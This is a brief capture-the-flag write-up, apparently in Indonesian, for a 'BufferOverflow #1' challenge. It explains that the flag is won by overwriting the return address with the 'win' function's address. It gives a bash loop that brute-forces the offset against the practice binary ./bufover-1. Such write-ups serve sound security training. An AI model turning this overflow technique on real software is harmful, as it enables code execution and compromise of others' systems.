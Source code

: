 # BufferOverflow #1

<img src="bufo1.png"><br>
hanya dengan menoverwrite alamat fungsi win untuk mencetak flag<br>
<img src="bufo1a.png"><br>




<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i + '\xb2\x91\x04\x08'"| ./bufover-1 ;done
```

<br>


